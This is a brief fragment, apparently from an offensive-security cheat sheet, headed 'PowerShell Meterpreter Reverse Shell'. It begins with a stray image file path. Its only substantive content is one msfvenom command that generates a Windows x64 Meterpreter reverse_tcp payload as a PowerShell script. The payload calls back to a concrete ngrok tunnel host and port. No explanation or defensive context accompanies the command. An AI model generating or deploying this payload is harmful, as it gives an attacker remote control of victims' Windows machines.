 ## PowerShell Meterpreter Reverse Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=17151 -f psh -o meterpreter-64.ps1
